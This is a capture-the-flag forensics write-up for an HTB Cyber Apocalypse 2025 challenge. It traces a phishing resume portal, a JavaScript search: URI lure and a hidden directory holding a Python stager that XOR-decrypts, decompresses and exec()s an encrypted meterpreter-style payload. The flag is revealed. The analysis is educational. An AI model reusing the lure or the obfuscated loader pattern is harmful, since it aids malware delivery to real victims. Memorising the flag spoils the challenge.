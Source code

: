 ```yaml
---
title: "A New Hire – Malicious Document via Resume Server (HTB Cyber Apocalypse 2025)"
tags: [CTF, forensics, web, resume leak, base64, decryption, malware]
---
```


# A New Hire 📁

![Language](https://img.shields.io/badge/language-Forensics-blue.svg)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue.svg)
![Category](https://img.shields.io/badge/category-Forensics-purple.svg)
![CTF](https://img.shields.io/badge/Event-HTB%20Cyber%20Apocalypse%202025-purple)

The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. 

At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

## 📚 Table of Contents

- [Challenge Overview 🕵️](#challenge-overview-%EF%B8%8F)
- [Email Lead ✉️](#email-lead-)
- [JavaScript Clue 🔍](#javascript-clue-)
- [Accessing the Hidden Path 🌐](#accessing-the-hidden-path-)
- [Payload Discovery 🧪](#payload-discovery-)
- [Python Backdoor Analysis 🧠](#python-backdoor-analysis-)
- [Extracting the Flag 🏴](#extracting-the-flag-)
- [Conclusion 🧾](#conclusion-)

## Challenge Overview 🕵️

A seemingly benign resume portal hides a dark secret: embedded malware is being used to gain a foothold in Eldoria’s infrastructure. 

As an investigator, your goal is to retrieve the payload, analyze it, and extract the flag.

You’re given access to an email mentioning a job applicant named “Lord Malakar” who has submitted a resume via a suspicious resume portal. 

Hidden within the web server’s structure lies a payload — it's your job to:

1. Identify the hidden route.
2. Retrieve and reverse the malware.
3. Extract the flag from the malicious payload.

## Email Lead ✉️

We started with a `.eml` file containing this key excerpt:

```
You can review his resume here:
storage.microsoftcloudservices.com:[PORT]/index.php
```

Alongside a note:

> Make sure you replace '[PORT]' with your instance's port and resolve hostnames correctly.

This implies we're looking for an open web service with a fake index page. Let’s explore further.

## JavaScript Clue 🔍

On accessing `/index.php`, we found JavaScript code that looked suspicious:

```
function getResume() {
  window.location.href=`search:displayname=Downloads&subquery=\\${window.location.hostname}@${window.location.port}\3fe1690d955e8fd2a0b282501570e1f4\resumes\`;
}
```

This hinted at a browsable directory path on the server:
```
/3fe1690d955e8fd2a0b282501570e1f4/
```

And sure enough, when visiting this path, a directory listing appeared 👇

![Directory Screenshot](https://github.com/user-attachments/assets/581800e9-5571-4805-9505-37a44fb45958)
## Accessing the Hidden Path 🌐

Navigating to:

```
http://<IP>:<PORT>/3fe1690d955e8fd2a0b282501570e1f4/configs/client.py
```

We found a Python file `client.py` containing the real malware logic.

## Payload Discovery 🧪

The script contained:

```python
import base64

key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")

data = base64.b64decode("c97FeXRj6jeG5P74ANItM...")  # truncated for readability

meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])
exec(__import__('zlib').decompress(meterpreter_data)[0])
```

Clearly, this malware:

- Base64-decodes a `key`.
- Base64-decodes a compressed payload.
- XORs the payload with the key.
- Decompresses it with `zlib`.
- Executes it via `exec()`.

## Python Backdoor Analysis 🧠

We manually decoded the key:

```
import base64
print(base64.b64decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==").decode())
```

**Output:**
```
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3ss!!}
```

Boom 💥 — that was the flag! The attacker was using a cleverly obfuscated Python backdoor disguised as a resume processing client. Upon inspection, no actual CV was present — just malware.

## Extracting the Flag 🏴

✅ Final flag:
```
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3ss!!}
```

## Conclusion 🧾

This challenge was a slick mix of:

- Web forensics (directory traversal)
- Static code analysis
- Malware unpacking (XOR + zlib)
- Obfuscated payload execution

It underscores the importance of **never trusting unverified documents** — especially those with Python scripts in `config/`.

**Lesson learned?** Just because it’s called a resume doesn’t mean it’s safe to open. 🐍📄

🔙 [Back to Cyber Apocalypse 2025 Writeups](../../)

